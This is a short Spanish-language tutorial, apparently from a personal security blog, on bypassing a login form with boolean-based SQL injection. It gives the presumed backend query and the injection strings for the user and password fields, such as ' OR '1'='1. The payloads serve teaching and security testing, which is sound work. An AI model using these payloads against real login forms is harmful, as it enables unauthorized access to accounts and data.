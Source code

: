 
### SQL Injection Login ByPass (Boolean Based)

Un SQL inject boolean based es un tipo de ataque de SQL injection en el que el atacante envía una consulta a la base de datos que contiene una condición booleana (verdadero o falso). La respuesta de la base de datos indica si la condición es verdadera o falsa, lo que permite al atacante deducir información sobre la estructura y los datos de la base de datos.

Primero realizamos la comprobación de la vulnerabilidad:

[![sqlinjectloginbypass1](/images/sqlinjectloginbypass1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectloginbypass1.png)

Una vez se detecta que es el login es vulnerable, debemos suponer la consulta que pasa por detrás del panel de autenticación, en este caso puede ser:

```sql
SELECT userid FROM users WHERE user='admin' AND pass='password';
```

Por lo tanto deberiamos aplicar el siguiente cambio a la consulta original:

```sql
SELECT userid FROM users WHERE user='' OR '1'='1' AND pass='' OR '1'='1'
```

Es decir aplicamos en el campo de ```user```, si conocieramos el nombre de usuario lo siguiente:

```sql
admin' OR '1'='1
```

Y en el campo de ```pass```:

```sql
' OR '1'='1

-- Si no conocieramos el nombre de usuario, iría lo mismo y considerará el primer usuario de la tabla
```

[![sqlinjectloginbypass2](/images/sqlinjectloginbypass2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectloginbypass2.png)
